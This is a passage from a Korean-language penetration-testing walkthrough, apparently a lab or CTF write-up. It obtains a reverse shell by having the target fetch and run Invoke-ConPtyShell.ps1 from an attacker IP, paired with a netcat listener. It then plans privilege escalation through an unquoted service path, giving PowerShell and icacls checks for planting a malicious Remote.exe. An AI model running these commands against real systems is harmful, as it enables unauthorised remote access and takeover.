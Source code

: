 

정상적으로 명령어가 작동하며, 공격자 서버로 Fully Interactive 리버스 쉘을 얻기 위해 
`Invoke-ConPtyShell.ps1` 파워쉘 스크립트를 이용한다. 이 때, 공격자 호스트에서는 스크립트를 다운받고 웹서비스를 구동 및 1234 포트를 열어둔다. 아래와 같은 명령어를 요청한다.  

```
# ATTACKER
stty raw -echo; (stty size; cat) | nc -lvnp 1234

# TARGET 
powershell IEX(IWR http://10.0.4.25/Invoke-ConPtyShell.ps1 -UseBasicParsing); Invoke-ConPtyShell 10.0.4.25 1234
```

웹 서비스 계정인 xampp 유저로 들어올 수 있다.
![](Pasted%20image%2020240728083650.png)


### 권한 상승

Unquoted Service Path 취약점의 존재 여부를 확인하기 위해 실행되고 있는 서비스들 중에, 서비스 실행 파일 경로에 쌍따옴표("") 가 없고, 공백이 있는 서비스들을 검색한다.

```powershell
Get-WmiObject Win32_Service | Where-object {$_.Startmode -eq 'Auto' -and $_.pathname -notlike 'c:\windows\*' -and $_.PathName -notmatch '^\s*\".*$'} | select-object Name, DisplayName, PathName, StartMode
```


서비스 실행 경로 : `C:\utils\Remote System Monitor Server\RemoteSystemMonitorService.exe`

서비스를 실행 시킬 때, 윈도우 API 함수의 특성상, 서비스 실행 경로 중간(`C:\utils\Remote System Monitor Server\`)에 공백이 있다면. Remote.exe 와 같이 .exe 를 붙여 실행하기 때문에 이러한 탐색 방식을 악용하여 Remote.exe 라는 이름의 악성 파일 업로드를 시도한다.

이를 구현하기 위해 `icacls`로 해당 경로`c:\utils`에 유저의 쓰기권한이 있는지 확인한다.  
![](Pasted%20image%2020240728012607.png)
